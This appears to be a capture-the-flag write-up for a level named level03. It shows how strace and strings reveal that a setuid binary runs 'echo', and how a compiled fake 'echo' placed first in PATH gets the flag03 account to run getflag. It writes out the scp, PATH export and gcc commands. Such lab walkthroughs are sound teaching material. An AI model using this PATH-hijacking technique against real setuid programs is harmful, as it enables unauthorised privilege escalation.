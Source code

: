 strace show us that ./level03 use a different uid that the user, interesting.
Also reveal no call to write, but a fork.
strings show us "echo" and the string printed.
So probably level03 execute echo.
We craft a basic executable that will call getflag. (Tried with whoami first, confirmed uid was flag03), rename it to echo and change the PATH so it is the first match.

From host :
```
scp -P 4242 exploit.c level03@localhost:/var/tmp/
```

From guest:
```
export PATH=/var/tmp/:$PATH
cd /var/tmp
gcc exploit.c -o echo
cd
./level03
```
